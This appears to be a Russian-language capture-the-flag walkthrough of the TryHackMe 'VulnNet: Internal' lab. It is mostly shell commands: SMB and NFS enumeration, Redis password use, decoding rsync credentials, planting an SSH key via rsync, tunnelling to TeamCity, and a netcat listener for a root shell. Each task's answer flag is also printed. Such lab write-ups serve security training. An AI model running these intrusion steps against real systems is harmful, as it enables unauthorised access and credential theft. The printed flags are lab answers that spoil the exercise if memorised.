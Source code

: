 [>> вернуться на главную страницу](https://github.com/BEPb/tryhackme/blob/master/README.md)

# Комната [VulnNet: Internal](https://tryhackme.com/r/room/vulnnetinternal) 

Всего 1 заданиe:
## Задание 1
VulnNet Entertainment — это компания, которая учится на своих ошибках. Они быстро поняли, что не могут создать должным образом защищенное веб-приложение, поэтому отказались от этой идеи. Вместо этого они решили настроить внутренние сервисы для деловых целей. Как обычно, вам поручено провести тест на проникновение в их сеть и сообщить о результатах.

Уровень сложности: легкий/средний
Операционная система: Linux
Эта машина была разработана как полная противоположность предыдущим машинам этой серии и фокусируется на внутренних 
сервисах. Она должна показать вам, как можно извлечь интересную информацию и использовать ее для получения доступа к 
системе. Сообщите о своих находках, отправив правильные флаги.  

Примечание: загрузка всех служб может занять от 3 до 5 минут.

Значок создан  Freepik с  сайта www.flaticon.com

### Ответьте на вопросы ниже
Что такое флаг служб? (services.txt)
```commandline
nmap -sC -sV -p- <IP>
smbclient -L <IP>
smbclient //<IP>/shares
get services.txt -
```
```commandline
THM{0a09d51e488f5fa105d8d866a497440a}
```
Что такое внутренний флаг? («внутренний флаг»)
```commandline
mkdir tmp/
sudo mount -t nfs <IP>: tmp
tree tmp 
grep -Ev "^#|^$" redis.conf
# B65Hx562F@ggAZ@F
redis-cli -h <IP> -a "B65Hx562F@ggAZ@F"
KEYS *
KEYS "internal flag"
GET "internal flag"
```
```commandline
THM{ff8e518addbbddb74531a724236a8221}
```
Что такое флаг пользователя? (user.txt)
```commandline
redis-cli -h <IP> -a "B65Hx562F@ggAZ@F"
KEYS *
GET authlist
LRANGE authlist 1 100
echo "QXV0aG9yaXphdGlvbiBmb3IgcnN5bmM6Ly9yc3luYy1jb25uZWN0QDEyNy4wLjAuMSB3aXRoIHBhc3N3b3JkIEhjZzNIUDY3QFRXQEJjNzJ2Cg==" | base64 -d
# rsync://rsync-connect@127.0.0.1 with password Hcg3HP67@TW@Bc72v
rsync --list-only rsync://<IP>
rsync --list-only rsync://rsync-connect@<IP>/files
# Hcg3HP67@TW@Bc72v
rsync --list-only rsync://rsync-connect@<IP>/files/sys-internal/
cp ~/.ssh/id_rsa.pub authorized_keys
rsync authorized_keys rsync://rsync-connect@<IP>/files/sys-internal/.ssh
ssh sys-internal@<IP>
cat user.txt
```
```commandline
THM{da7c20696831f253e0afaca8b83c07ab}
```
Что такое корневой флаг? (root.txt)
```commandline
ls -la
ss -ltp
ssh -L 8111:127.0.0.1:8111 sys-internal@<IP>
# http://localhost:8111
grep -iR token /TeamCity/logs/ 2>/dev/null
nc -nlvp 4444
cat /root/root.txt
```
```commandline
THM{e8996faea46df09dba5676dd271c60bd}
```

[>> вернуться на главную страницу](https://github.com/BEPb/tryhackme/blob/master/README.md)